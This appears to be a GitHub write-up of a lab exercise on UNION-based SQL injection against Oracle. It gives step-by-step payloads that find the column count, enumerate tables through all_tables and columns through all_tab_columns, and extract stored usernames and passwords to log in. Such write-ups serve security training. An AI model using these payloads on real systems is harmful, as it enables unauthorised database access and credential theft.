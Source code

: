 # SQL-injection-attack-listing-the-database-contents-on-Oracle

> # (1)To know the existing columns: 'ORDER BY 3--. Here 2 columns available
![image](https://user-images.githubusercontent.com/59218362/208476549-b40cdd56-df00-4681-a958-54a093025ed9.png)
![image](https://user-images.githubusercontent.com/59218362/208476733-22483735-1286-41e0-ac91-a76ce976a663.png)

> # (2) To check which column are retrieving data: 'UNION SELECT 'Data','Data'--. But, got the internal server error. because it is oracle database

> # (3) To check data retricve in oracle: 'UNION SELECT 'data','data' FROM DUAL--. Here. both columns retrieve data
![image](https://user-images.githubusercontent.com/59218362/208487220-72e6047c-fcbb-4a35-b9ea-cdf926a236b5.png)

> # (4)To know all table name from oracle database: '+UNION+SELECT+table_name,NULL+FROM+all_tables--
![image](https://user-images.githubusercontent.com/59218362/208487761-9469e0d5-9586-4e96-b420-cf7f1a5b248f.png)

> # (5) To know the columns: 'UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name='USERS_GBVMGJ'--
![image](https://user-images.githubusercontent.com/59218362/208489976-2d1a84a1-8043-4dcf-b542-cde1186f2b1a.png)

> # (6) To know the credential: ' UNION SELECT USERNAME_QFOMKN, PASSWORD_HNCXYZ FROM USERS_GBVMGJ--
![image](https://user-images.githubusercontent.com/59218362/208490568-7185759a-5cd4-430e-aac6-43b8cf346c11.png)

> # (7) Now login with the credential :)

